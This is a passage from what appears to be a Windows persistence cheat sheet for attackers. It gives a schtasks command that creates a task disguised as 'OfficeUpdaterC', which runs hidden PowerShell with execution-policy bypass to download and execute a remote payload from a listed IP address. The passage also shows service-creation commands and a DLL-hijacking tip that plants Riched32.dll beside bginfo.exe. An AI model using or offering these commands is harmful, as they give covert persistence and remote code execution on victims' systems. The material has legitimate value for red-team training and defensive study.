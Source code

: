 ```
    schtasks /create /tn OfficeUpdaterC /tr "c:\windows\syswow64\WindowsPowerShell\v1.0\powershell.exe -WindowStyle hidden -NoLogo -NonInteractive -ep bypass -nop -c 'IEX ((new-object net.webclient).downloadstring('''http://192.168.95.195:8080/kBBldxiub6'''))'" /sc onidle /i 30
```

##### Additional Notes

Scheduled Tasks binary paths CANNOT contain spaces because everything after the first space in the path is considered to be a command-line argument. To workaround this behavior, enclose the /TR path parameter between backslash (\) AND quotation marks ("):

Delete scheduled task without prompting 
``` 
    schtasks /delete /f /TN taskname
```

Detailed scheduled tasks listing
``` 
    schtasks /query /V /FO list
```
    
View scheduled tasks log (for troubleshooting)
``` 
    notepad c:\windows\schedlgu.txt (Windows XP)

    notepad c:\windows\tasks\schedlgu.txt (Vista+)
    
```

#### Windows Service
```
    sc query
    sc create <\\Target(optional)> <servicename> binPath= <service binary path> type= share start= auto DisplayName= <display name>
    sc delete <servicename>
```

#### DLL-Hijacking

Order of DLL Loading
```
1. The directory from which the application is loaded
2. The current directory
3. The system directory, usually C:\\Windows\\System32\\ (The GetSystemDirectory function is called to obtain this directory.)
4. The 16-bit system directory - There is no dedicated function to retrieve the path of this directory, but it is searched as well.
5. The Windows directory. The GetWindowsDirector function is called to obtain this directory.
6. The directories that are listed in the PATH environment variable.
```

Many systems use bginfo (seen it a lot in operational sys). Drop Riched32.dll in the dir with bginfo.exe. Codex.

Older list of dlls as well (2010). https://www.exploit-db.com/dll-hijacking-vulnerable-applications/
